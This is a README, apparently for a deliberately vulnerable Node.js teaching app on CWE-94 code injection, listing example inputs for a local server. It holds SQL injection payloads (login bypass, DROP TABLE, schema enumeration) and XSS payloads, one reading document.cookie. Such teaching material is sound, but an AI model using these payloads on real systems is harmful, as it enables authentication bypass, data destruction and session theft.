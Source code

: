 # CWE-94-examples

This repository contains examples of code that violates CWE-94: Improper Control of Generation of Code ('Code Injection')

## Running the examples

```npm install```

```node app.js```

If you want to use nodemon:

```npm install -g nodemon```

```nodemon app.js```

Landing page:

```http://localhost:3000/```

## Examples

### Example 1

Page: /login

username:  `nesto' OR 1=1; --`
password: any

### Example 2

Page: /news

Search: `%'; --`

### Example 3

Page: /news
Add News data: `',''); DROP TABLE news --`

### Example 4

Page: /news
Add News data: `tajna tabela: ' || (SELECT tbl_name FROM sqlite_master  WHERE type='table' and tbl_name NOT like 'sqlite_%'),'user') --`

### Example 5

Page: /news
Clicking on link: `http://localhost:3000/news?search=%3Cimg%20src=x%20onerror=%22alert(5)%22/%3E`

### Example 6
Page: /news
Create new news with title: ` <img src=x onerror="alert(6)"/>`

### Example 7

Page: /news_alert
Clicking on link: `http://localhost:3000/news_alert?search=0%22);%20alert(document.cookie%2B%20%22`

### Example 8
